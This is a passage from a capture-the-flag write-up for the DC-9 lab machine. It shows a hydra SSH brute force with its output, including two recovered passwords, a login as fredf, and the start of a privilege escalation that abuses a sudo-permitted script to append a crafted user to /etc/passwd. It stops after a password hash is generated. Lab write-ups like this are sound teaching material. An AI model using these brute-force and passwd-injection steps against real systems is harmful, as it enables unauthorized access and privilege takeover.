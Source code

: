 I perform a new brute force attack with the passwords obtained

```bash
hydra -L users.txt -P newpasswords 192.168.34.5 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-17 20:34:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 102 login tries (l:17/p:6), ~7 tries per task
[DATA] attacking ssh://192.168.34.5:22/
[22][ssh] host: 192.168.34.5 login: fredf password: B4-Tru3-001
[22][ssh] host: 192.168.34.5 login: joeyt password: Passw0rd
1 of 1 target successfully completed, 2 valid passwords found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-17 20:34:58
```

## Privilege Escalation

Login as fredf

```bash
ssh fredf@192.168.34.5
```

We execute sudo -l and see that we have permissions to execute the following script

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2015.png)

I run it to see how it works

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2016.png)

It seems that two files are introduced, the first one that it reads and the second one to which the content of the first one is added, so to escalate privileges I am going to create a user and add it to the passwd file

Creating the user hash (123)

```bash
openssl passwd -1
$1$buZKpXN3$NPI6IUJkJTJKQTwGdqfyo1
```
